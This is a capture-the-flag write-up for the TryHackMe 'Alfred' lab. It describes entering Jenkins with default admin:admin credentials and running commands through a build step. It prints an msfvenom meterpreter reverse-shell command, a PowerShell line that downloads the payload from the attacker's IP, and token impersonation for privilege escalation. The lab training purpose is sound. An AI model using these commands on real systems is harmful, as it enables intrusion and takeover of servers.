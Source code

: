 # TryHackMe - Alfred
---

## Enum
Initially, when enumerating for open ports we can see that the ports 80, 8080 and 3389 are open. 
On port 8080 we can see that there's an automation server running which is called "Jenkins" (https://www.jenkins.io/).

## Weak creds
This sever has a login page on the index page:
![[/img/Pasted image 20210827190250.png]]

The credentials are: `admin:admin` 

# Exploiting Jenkins
When enumerating the server, I notice that I can run commands to the server by entering them to the projects and running the project.
The process for runnign commands on the server is as follows: Jenkins -> project -> Configure -> "Build" tab -> enter command -> apply/ save -> Build Now.
![[/img/Pasted image 20210827190620.png]]

# Initial access
I generated a meterpreter payload and transfered it to the server using powershell.
msfvenom:
```txt
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -a x86 lhost=10.10.218.77 lport=4444 -f exe -o met.exe
```
powershell download:
```txt
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.218.77:8888/met.exe', 'C:\Program Files (x86)\Jenkins\workspace\project\met.exe')"
```

![[/img/Pasted image 20210828114210.png]]

Then just running "met.exe" using the same misconfiguration.

# User flag
![[/img/Pasted image 20210828115051.png]]

# PrivEsc
When running whoami /priv we can see that we have some interesting priviliges like debug and SetImpersonate:
![[/img/Pasted image 20210828115240.png]]

We'll be using the "incognito" module from metasploit in order to leverage this.
`meterpreter> load incognito`

Then we list what tokens we can impersonate:
`list_tokens -u/-g`

In this case we see that we can impersonate `BUILTIN\Administrators`. So we'll impersonate that token:
![[/img/Pasted image 20210828115908.png]]
(if shell commands dont work then migrate to a system process).

# Root flag
![[/img/Pasted image 20210828120047.png]]
